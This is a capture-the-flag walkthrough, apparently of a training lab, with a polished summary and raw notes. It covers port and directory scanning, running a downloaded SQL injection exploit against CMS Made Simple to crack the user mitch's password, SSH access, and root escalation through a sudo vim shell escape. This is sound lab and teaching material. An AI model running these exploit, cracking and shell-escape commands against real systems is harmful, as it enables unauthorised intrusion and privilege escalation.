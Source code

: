 ## Initial Scanning and Reconnaissance

1. **Nmap Scan**: Perform a full port scan to identify open ports on the target.
  ```bash
   nmap -p- 10.10.243.54 -T4
  ```
   **Result**: Found three open ports:
   - SSH
   - FTP
   - HTTP

2. **Directory Scanning**:
   - Accessed the HTTP service but found nothing significant in the root directory or `robots.txt`.
   - Started a directory scan using `ffuf`:
     ```bash
     ffuf -u http://10.10.243.54/FUZZ -w /usr/share/wordlists/dirb/big.txt
     ```
   - **Result**: Discovered several directories, including `/simple`.

## Exploiting CMS Made Simple

1. **Identifying CMS**:
   - The `/simple` endpoint revealed the service running **CMS Made Simple**.
   - Searched online and found it is vulnerable to SQL injection.

2. **Exploitation**:
   - Downloaded a Python exploit script and ran it to extract credentials.
     ```bash
     python3 exploit.py -u http://10.10.243.54/simple/
     ```
   - Initial run failed to crack the password. Corrected the command to include a wordlist:
     ```bash
     python3 exploit.py -c -w /usr/share/wordlists/seclists/Passwords/Common-Credentials/best110.txt -u http://10.10.243.54/simple/
     ```
   - **Result**: Obtained credentials:
     ```
     [+] Salt for password found: 1dac0d92e9fa6bb2
     [+] Username found: mitch
     [+] Email found: admin@admin.com
     [+] Password found: 0c01f4468bd75d7a84c7eb73846e8d96
     [+] Password cracked: secret
     ```

## Gaining Initial Access

1. **SSH Access**:
   - Noticed SSH is running on port 2222 (instead of the default port 22).
   - Accessed the system using the credentials:
     ```bash
     ssh mitch@10.10.243.54 -p 2222
     ```
   - Successfully logged in and retrieved `user.txt`.

## Privilege Escalation

1. **SUID Binary Search**:
   - Searched for SUID binaries:
     ```bash
     find / -perm -4000 -type f 2>/dev/null
     ```
   - Found nothing useful.

2. **Checking User's Sudo Privileges**:
   - Listed `sudo` privileges:
     ```bash
     sudo -l
     ```
   - **Result**: User `mitch` can execute `vim` as root.

3. **Using GTFOBins**:
   - Found a command to escalate privileges using `vim`:
     ```bash
     sudo vim -c ':!/bin/sh'
     ```
   - Checked privileges using `whoami`:
     ```
     root
     ```

4. **Retrieving Root Flag**:
   - Navigated to the root directory and retrieved `root.txt`.

## Conclusion

Successfully exploited the CMS Made Simple service, gained initial access, escalated privileges to root, and completed the CTF.
#### Raw Notes
did a nmap scan for the famous 1000 ports
```bash
nmap -p- 10.10.243.54 -T4
```
got 3 ports open 
- ssh
- ftp
- http
nothing special on the root of the http server, so started a directory scan for the website, robots.txt also does not have anything, 

```bash
ffuf -u http://10.10.243.54/FUZZ -w /usr/share/wordlists/dirb/big.txt
```

got some of the directories in it, one of it is ''/simple" endpoint
got a cms service running over it 
service name: CMS Made simple 
searched for a exploit and got one, it is vulnerable to Sqli
downloaded the python script, and gave it the url of the site
```bash
python3 exploit.py -u http://10.10.243.54/simple/
```

got some creds there
```bash
[+] Salt for password found: 1dac0d92e9fa6bb2
[+] Username found: mitch
[+] Email found: admin@admin.com
[+] Password found: 0c01f4468bd75d7a84c7eb73846e8d96
```
the above is wrong because you have not used the exploit correctly
the below is the correct way i guess
```bash
python3 exploit.py -c -w /usr/share/wordlists/seclists/Passwords/Common-Credentials/best110.txt -u http://10.10.243.54/simple/
```
got the correct creds now
```bash
[+] Salt for password found: 1dac0d92e9fa6bb2
[+] Username found: mitch
[+] Email found: admin@admin.com
[+] Password found: 0c01f4468bd75d7a84c7eb73846e8d96
[+] Password cracked: secret
```

got the cred to ssh tying it now
got into the system using the password
did a mistake there as the default port for ssh is 22 but in our case we have ftp there and ssh at the port 2222
so we need to access it using the following
```bash
 ssh mitch@10.10.243.54 -p 2222
```
got in and got the user.txt file
so now we need something to escalate our privilages
```bash
find / -perm -4000 -type f 2>/dev/null
```
i used this but did not get anything trying another method to get what we can do
we can use the following to see what we can do
```bash
sudo -l
```
we got that the user mitch can use vim, so lets search GTFO Bins for command that will help in the escalation
we got that we can use following command on gtfo bins to get the privilages
```bash
sudo vim -c ':!/bin/sh'
```
checking if we have access with whoami
boom we are root
travesing to the root we get the root.txt 
done we have solved the CTF and do with it